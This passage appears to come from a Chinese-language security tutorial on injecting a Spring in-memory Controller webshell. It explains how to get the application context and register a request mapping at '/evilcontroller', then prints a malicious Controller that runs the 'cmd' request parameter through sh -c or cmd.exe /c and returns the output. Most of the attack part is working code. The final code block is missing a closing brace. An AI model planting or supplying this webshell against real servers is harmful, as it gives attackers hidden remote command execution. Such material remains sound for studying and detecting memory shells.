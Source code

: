 实际上常用的就2,3。



其中1获取的是Root WebApplicationContext，2，3通过RequestContextUtils获取的是叫dispatcherServlet-servlet的Child WebApplicationContext。

> 在有些Spring 应用逻辑比较简单的情况下，可能没有配置 `ContextLoaderListener` 、也没有类似 `applicationContext.xml` 的全局配置文件，只有简单的 `servlet` 配置文件，这时候通过1方法是获取不到`Root WebApplicationContext`的。





### 2.模拟注册Controller

在spring2.5-3.1使用DefaultAnnotationHandlerMapping处理URL映射。spring3.1以后使用RequestMappingHandlerMapping

模拟注册Controller的方式一般有三种：

①源码分析就介绍的，registryMapping直接注册requestMapping

直接通过getBean就能获取RequestMappingHandlerMapping

```java
RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
```

生成RequestMappingInfo。需要传入PatternsRequestCondition（Controller映射的URL）和RequestMethodsRequestCondition（HTTP请求方法）

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230116132821455.png)

```java
PatternsRequestCondition url = new PatternsRequestCondition("/evilcontroller");

RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();

RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);

```

恶意Controller:

```java
@RestController
public class InjectedController {
    public InjectedController(){
    }
    public void cmd() throws Exception {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        if (request.getParameter("cmd") != null) {
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\A");
            String output = s.hasNext() ? s.next() : "";
            response.getWriter().write(output);
            response.getWriter().flush();
            response.getWriter().close();
    }
}
```